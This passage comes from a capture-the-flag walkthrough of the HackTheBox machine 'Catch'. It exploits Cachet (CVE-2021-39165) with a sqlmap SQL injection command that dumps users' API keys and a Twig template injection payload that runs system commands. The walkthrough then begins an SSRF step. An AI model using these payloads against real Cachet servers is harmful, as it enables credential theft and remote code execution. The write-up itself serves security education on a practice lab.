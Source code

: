 The `User` object ([defined here](https://github.com/CachetHQ/Cachet/blob/2.4/app/Models/User.php)) has `username`, `password`, and `api_key` fields, among others. I would normally dump the password, but I know from the chat leak that it’s not something I can crack. I’ll dump the `username` and `api_key`:

```

oxdf@hacky$ sqlmap -u "http://status.catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+" --batch -D cachet -T users -C username,api_key --dump
...[snip]...
Database: cachet
Table: users
[2 entries]
+----------+----------------------+
| username | api_key              |
+----------+----------------------+
| john     | 7GVCqTY5abrox48Nct8j |
| admin    | rMSN8kJN9TPADl2cWv8N |
+----------+----------------------+

```

### Get API Key Via Profile

Alternatively, instead of using the SQL injection, I can use the Let’s Chat API to get john’s password, shown [above](#enumerate-chat). Then, logged in as john, visiting the Profile page shows the API key:

![image-20220629144543952](https://0xdfimages.gitlab.io/img/image-20220629144543952.png)

### Generate Template

The [Cachet API docs](https://docs.cachethq.io/reference/ping) don’t show a way to create templates using the API. That means I’ll need the GUI access as john to do this part (though hit me up on Discord or Twitter if you figured out how to do this with only an API key).

I’ll use the POC from the [CVE-2021-39165 writeup](https://www.leavesongs.com/PENETRATION/cachet-from-laravel-sqli-to-bug-bounty.html):

```

{{["id"]|filter("system")|join(",")}}

```

I’ll create a template named “id” with that as the body and click “Create”:

![image-20220629150159290](https://0xdfimages.gitlab.io/img/image-20220629150159290.png)

### Trigger SSRF

Only the API triggers the SSRF. I’ll use Repeater to send the request:

[![image-20220629150338651](https://0xdfimages.gitlab.io/img/image-20220629150338651.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20220629150338651.png)
